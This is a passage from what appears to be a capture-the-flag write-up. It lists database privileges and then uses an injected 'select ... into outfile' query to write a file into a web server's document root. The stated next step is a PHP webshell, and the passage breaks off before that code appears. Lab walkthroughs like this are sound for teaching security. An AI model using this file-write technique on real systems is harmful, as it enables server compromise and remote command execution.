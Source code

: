 ```
ALTER
SHOW DATABASES
SUPER
CREATE TEMPORARY TABLES
LOCK TABLES
EXECUTE
REPLICATION SLAVE
BINLOG MONITOR
CREATE VIEW
SHOW VIEW
CREATE ROUTINE
ALTER ROUTINE
CREATE USER
EVENT
TRIGGER
CREATE TABLESPACE
DELETE HISTORY
SET USER
FEDERATED ADMIN
CONNECTION ADMIN
READ_ONLY ADMIN
REPLICATION SLAVE ADMIN
REPLICATION MASTER ADMIN
BINLOG ADMIN
BINLOG REPLAY
SLAVE MONITOR

```

It’s a lot, but `FILE` jumps out as interesting.

### Webshell

#### File Write

Another thing to try is writing a file. I’ll run:

```

> select "0xdf was here!" into outfile '/var/www/html/0xdf.txt'

```

It doesn’t return anything, because if it worked, it would return 0 columns, when it’s trying to union with 1 column, which will lead to an error (after it writes the file).

The file does exist on the server:

![image-20210913214425073](https://0xdfimages.gitlab.io/img/image-20210913214425073.png)

#### Write Shell

I’ll run that again, but this time write a simple PHP webshell:
